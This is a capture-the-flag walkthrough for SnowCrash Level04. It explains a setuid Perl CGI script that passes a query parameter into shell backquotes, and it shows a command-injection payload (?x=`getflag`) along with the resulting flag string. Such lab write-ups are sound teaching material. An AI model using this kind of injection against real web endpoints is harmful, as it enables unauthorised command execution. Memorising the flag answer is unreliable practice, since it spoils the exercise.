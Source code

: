 # Level04

```bash
level04@SnowCrash:~$ ls -l
-rwsr-s-r-x 1 flag04 level04 152 Mar 5 2016 level04.pl
```
Again this setuid, that means this program can executes commands as flag04.

```perl
level04@SnowCrash:~$ cat level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```
We can see 2 things: <br/>
1. We can see that localhost:4747 is used, as well as CGI. 
`CGI stands for Common Gateway Interface, it’s a protocol for executing scripts via web requests, and in the late 1990’s was the main way to write dynamic programs for the Web. It’s also the name of the Perl module we used [...] to code for the web.` <br/>
https://www.perl.com/article/perl-and-cgi/
2. The print `print `echo $y 2>&1`;` uses \`\` (Backquotes), and any command put between backquotes will be executed.
https://www.tutorialspoint.com/unix/unix-quoting-mechanisms.htm



Open a web browser, connect to the VM IP address on port 4747, for example: http://10.0.2.15:4747/

`The first way to pass data is with the query string, (the portion of a URI beginning with ?), which you see in URLs like https://example.com/?foo=bar. This uses the “GET” request method, and becomes available to the program as $ENV->{QUERY_STRING}, which in this case is foo=bar (CGI programs receive their arguments as environment variables).`<br/>
https://www.perl.com/article/perl-and-cgi/

Use the query string to pass the getflag command: </br>
`http://192.168.1.67:4747/?x=getflag` will not work as it will only print the string getflag </br>
But \`getflag\` will be taken as command (try print/echo \`getflag\` in terminal for example)

`ne2searoevaevoem4ov4ar8ap` 
